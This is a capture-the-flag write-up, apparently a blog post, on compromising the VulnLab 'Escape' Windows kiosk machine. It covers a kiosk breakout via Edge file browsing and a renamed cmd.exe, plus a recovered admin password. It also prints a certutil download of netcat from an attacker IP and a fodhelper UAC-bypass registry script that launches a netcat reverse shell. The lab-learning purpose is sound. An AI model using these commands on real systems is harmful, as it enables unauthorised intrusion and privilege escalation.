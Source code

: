 ```yaml
---
title: VulnLab -- Escape Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [kiosk]
image:
    path: ../images/Escape-banner.png
---
```

# Escape

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Escape** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/escape-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3389 --min-rate=1000 10.10.120.101
```

![image.png](../images/escape.png)

Now let’s try to connect to the RDP.

```bash
xfreerdp /v:10.10.120.101 -sec-nla
```

![image.png](../images/escape%201.png)

> Notice that the message say to connect to the machine using
username: KisokUser0
password: no password
> 

so let’s connect to the RDP using the user KioskUser0

![image.png](../images/escape%202.png)

Now let’s go and open the edge bowser and search for the C directory

```bash
file:///c:/
```

![image.png](../images/escape%203.png)

notice that there is a folder named admin so let’s navigate to it!

![image.png](../images/escape%204.png)

notice that we got the password of the administrator.

Now let’s get the user flag by navigating to the users folder

```bash
file:///C:/Users/kioskUser0/Desktop/user_07eb46.txt
```

![image.png](../images/escape%205.png)

Now let’s get the admin password using the Remote Desktop Plus application.

Now let’s import the profile.xml to the application

![image.png](../images/escape%206.png)

Now let’s open BulltesPassView that will help recovering the password from bullet format

![image.png](../images/escape%207.png)

> Now notice that now know that got the credentails
username: admin
password: Twisting3021
> 

Now let’s go back to Microsoft edge and retrieve the cmd

```bash
file:///C:/Windows/System32/cmd.exe
```

![image.png](../images/escape%208.png)

now let’s view it in the download file

![image.png](../images/escape%209.png)

now rename the executable to msedge as this is allowed application to run

![image.png](../images/escape%2010.png)

Now let’s run it

![image.png](../images/escape%2011.png)

As we see we got access to the cmd!

Now let’s use run as and open cmd as the admin user

```bash
runas /user:Escape\admin cmd.exe
```

![image.png](../images/escape%2012.png)

now let’s see our new user.

![image.png](../images/escape%2013.png)

Now let’s see our privileges

```bash
whoami /all
```

![image.png](../images/escape%2014.png)

> Since we are in admin group admin medium integrity level we can do UAC bypass and gain full access
> 

First let’s transfer net cat.

```bash
certutil -urlcache -f http://10.8.5.233/nc.exe nc.exe
```

![image.png](../images/escape%2015.png)

Now let’s go and abuse the UAC and get full access reverse shell.

Start a listener

```bash
nc -lvnp 1337 
```

![image.png](../images/escape%2016.png)

Now let’s gain a shell

```bash
powerhsell -ep bypass
```

and paste this PowerShell script in the terminal

```bash
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\admin\Desktop\nc.exe 10.8.5.233 1337 -e cmd.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

![image.png](../images/escape%2017.png)

Now let’s go back to our listener.

![image.png](../images/escape%2018.png)

we didn’t get anything 😞

But! we can run cmd to get admin privilege 

```bash
Start-Process -Verb runas cmd.exe
```

![image.png](../images/escape%2019.png)

Now let’s see our privs.

```bash
whoami /priv
```

![image.png](../images/escape%2020.png)

and we got the full access

now let’s go to the root directory

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/escape%2021.png)

amazing we got the root flag!

![image.png](../images/escape%2022.png)

That’s it for the **Escape** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX